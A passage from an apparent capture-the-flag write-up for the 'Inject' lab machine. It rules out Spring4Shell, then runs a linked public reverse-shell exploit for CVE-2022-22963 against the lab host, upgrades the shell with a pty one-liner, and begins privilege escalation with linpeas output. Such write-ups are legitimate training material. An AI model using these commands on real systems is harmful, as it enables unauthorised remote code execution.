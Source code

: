     Other useful links:
    - [https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html](https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html)
    - [https://github.com/BobTheShoplifter/Spring4Shell-POC](https://github.com/BobTheShoplifter/Spring4Shell-POC)
    - [https://websecured.io/blog/624411cf775ad17d72274d16/spring4shell-poc](https://websecured.io/blog/624411cf775ad17d72274d16/spring4shell-poc)
    - [https://www.microsoft.com/en-us/security/blog/2022/04/04/springshell-rce-vulnerability-guidance-for-protecting-against-and-detecting-cve-2022-22965/](https://www.microsoft.com/en-us/security/blog/2022/04/04/springshell-rce-vulnerability-guidance-for-protecting-against-and-detecting-cve-2022-22965/)

    ```
    Impacted systems have the following traits:

    Running JDK 9.0 or later
    Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and earlier versions
    Apache Tomcat as the Servlet container:
        Packaged as a traditional Java web archive (WAR) and deployed in a standalone Tomcat instance; typical Spring Boot deployments using an embedded Servlet container or reactive web server are not impacted
        Tomcat has spring-webmvc or spring-webflux dependencies
    ```

    From the `pom.xml` file I see that neither of the two dependencies are present: `spring-webmvc` or `spring-webflux`. So this vulnerability is not exploitable on this system!

<br><br>

- I keep looking for possible vulnerabilities from the `pom.xml` file and I find: [https://sysdig.com/blog/cve-2022-22963-spring-cloud/](https://sysdig.com/blog/cve-2022-22963-spring-cloud/)

    Exploit: [https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/blob/main/exploit.py](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/blob/main/exploit.py)

    `python3 exploit.py -u "http://inject.htb:8080/"`

    `python3 -c 'import pty; pty.spawn("/bin/bash")'`

<br><br>

## Privesc frank

- I run `linpeas.sh`
    ```
    ╔══════════╣ Cleaned processes
    ╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes 
    frank        826  3.5 10.0 3606460 401272 ?      Ssl  06:55   3:28 /usr/bin/java -Ddebug -jar /var/www/WebApp/target/spring-webapp.jar
    ```

    ```
    ╔══════════╣ Searching root files in home dirs (limit 30)
    /home/                                                                
    /home/phil/.bash_history
    /home/phil/user.txt
    /home/frank/.bash_history
    /home/frank/.m2/settings.xml
    /root/
    ```
